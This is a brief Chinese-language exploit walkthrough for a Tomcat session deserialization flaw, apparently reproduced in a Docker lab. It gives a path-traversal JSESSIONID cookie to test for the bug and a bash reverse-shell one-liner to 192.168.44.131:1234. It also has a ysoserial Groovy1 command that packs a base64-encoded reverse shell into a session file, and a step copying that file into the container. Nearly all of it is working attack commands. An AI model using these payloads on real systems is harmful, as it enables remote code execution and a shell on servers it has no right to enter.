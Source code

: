 # 1.  设置cookie 访问主页查看是否有该漏洞

Cookie: JSESSIONID=../../../../../usr/local/tomcat/groovy

![4719c862dea7c66ab7cf49a2bfdc0a2d.png](../../_resources/4719c862dea7c66ab7cf49a2bfdc0a2d.png)

返回500 说明有代码执行

# 2 . 构造反弹shell命令

bash -i >& /dev/tcp/192.168.44.131/1234 0>&1

java -jar ysoserial.jar Groovy1 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjQ0LjEzMS8xMjM0IDA+JjE=}|{base64,-d}|{bash,-i}"  > rce.session

# 3 . 上传反序列化文件rce.session

docker cp rce.session e85a329ccca3:/usr/local/tomcat/rce.session

![41f1da99821989a45d1e8b83adf24aab.png](../../_resources/41f1da99821989a45d1e8b83adf24aab.png)
# 4. 执行反弹shell

![2db3fdc61ffaacd5ec306ce10d78de6e.png](../../_resources/2db3fdc61ffaacd5ec306ce10d78de6e.png)